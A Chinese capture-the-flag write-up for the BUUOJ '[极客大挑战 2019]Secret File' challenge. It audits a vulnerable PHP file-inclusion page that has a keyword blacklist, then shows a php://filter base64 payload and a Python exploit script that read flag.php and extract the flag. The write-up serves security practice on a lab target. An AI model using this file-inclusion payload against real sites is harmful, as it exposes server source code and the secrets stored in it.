


# 分析

来自[[极客大挑战 2019]Secret File](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Secret%20File)

页面没啥功能，F12查看源码，发现`./Archive_room.php`，访问看到


稳妥起见，查看这个页面访问`./action.php`，不到一秒，就看完了？整这些花里胡哨的



我们返回查阅前进行抓包，果然发现端倪，访问`secr3t.php`



代码审计，发现

```php+HTML
<html>
  <title>secret</title>
  <meta charset="UTF-8">
<?php
  highlight_file(__FILE__);
  error_reporting(0);
  $file=$_GET['file'];
  //过滤了关键字
  if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
      echo "Oh no!";
      exit();
  }
  include($file); 
//flag放在了flag.php里
?>
</html>
```

尝试php伪协议获得flag.php源码，payload=`secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php`

# exp

```python
import requests
import base64
import re

url = "http://edb1e0cc-0bb5-417d-854f-3eb6855a8b89.node5.buuoj.cn:81/secr3t.php"
kw={
  "file":"php://filter/convert.base64-encode/resource=flag.php"
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.content.decode('utf-8')
    start_marker = '</code>'
    end_marker ='</html>'
    base64_data = res_text.split(start_marker)[1].strip()
    base64_data = base64_data.split(end_marker,1)[0]
    flag_text = str(base64.b64decode(base64_data))
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, flag_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag found -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

